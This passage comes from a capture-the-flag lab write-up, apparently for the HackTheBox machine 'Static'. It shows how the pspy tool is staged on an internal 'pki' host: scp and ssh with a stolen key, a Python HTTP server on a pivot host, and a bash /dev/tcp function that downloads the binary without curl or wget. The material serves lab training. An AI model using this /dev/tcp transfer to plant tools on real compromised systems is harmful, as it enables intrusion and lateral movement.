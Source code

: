 To solve the problem of transferring the **`pspy`** script to the **pki** host, I will search the internet for **"curl() function without curl command bash"** and find what I need, **[how to download a file using just bash and nothing else](https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et){:target="_blank"}**. So all I have to do is transfer the `pspy` to the **web** host and then create the **`__curl`** function on the **pki** host and I can transfer it, to be sure of the integrity of the binary, I check the hash on both hosts.

> **Attacker Machine**:

```bash
scp -P 2222 -i id_rsa pspy www-data@10.10.10.246:/dev/shm
ssh -i id_rsa www-data@10.10.10.246 -p 2222
```

> **Web Host**:

```bash
which python3
python3 -m http.server 8081
```

> **Pki Host**:

```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}

__curl http://192.168.254.2:8081/pspy > pspy
```

<br/>
<img src="{{ site.img_path }}/static_writeup/Static_95.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_96.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_97.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_98.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_99.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
